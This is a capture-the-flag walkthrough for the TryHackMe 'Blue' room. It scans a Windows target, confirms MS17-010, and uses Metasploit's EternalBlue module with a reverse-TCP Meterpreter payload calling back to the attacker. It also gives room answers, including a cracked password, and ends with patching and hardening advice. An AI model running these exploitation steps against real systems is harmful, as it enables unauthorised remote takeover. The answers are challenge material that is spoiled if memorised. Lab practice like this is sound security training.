

# TryHackMe: Blue – Walkthrough

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts

# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Capturing Flags & Room Questions

7: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

<pre> sudo openvpn --config ~/Downloads/tryhackme.ovpn </pre>

### Confirm connectivity

# Check your tun0 interface
<pre> ifconfig </pre>  

# Replace with the room's gateway to verify
<pre> ping 10.10.10.10 </pre> 

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Port Scan

<pre> nmap -sV -A <TARGET_IP> </pre>

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

<pre> nmap -sC -sV <TARGET_IP> </pre>

-sC-runs default scripts

-sV-detects versions

### 2.3 SMB-Specific Enumeration

<pre> nmap -sC -sV --script vlun <TARGET_IP> </pre>

--script vuln-runs Nmap scripts to detect known vulnerabilities on the target — no exploitation, just scanning.

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

<pre> msfconsole </pre>

Search for EternalBlue module

<pre> search ms17_010 </pre>

Select the exploit

use exploit/windows/smb/ms17_010_eternalblue

### Configure options

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

### exploit

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > pwd

It shows where you are

## 6. Capturing Flags & Room Questions

How many ports are open with a port number under 1000?

ans-3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

ans-ms17-010

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

ans-exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

ans-RHOSTS

 What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

 ans-post/multi/manage/shell_to_meterpreter

 Select this (use MODULE_PATH). Show options, what option are we required to change?

 ans-SESSION

Copy this password hash to a file and research how to crack it. What is the cracked password?

ans-alqfna22

Flag1? This flag can be found at the system root. 

Flag2? This flag can be found at the location where passwords are stored within Windows.

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior

🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!
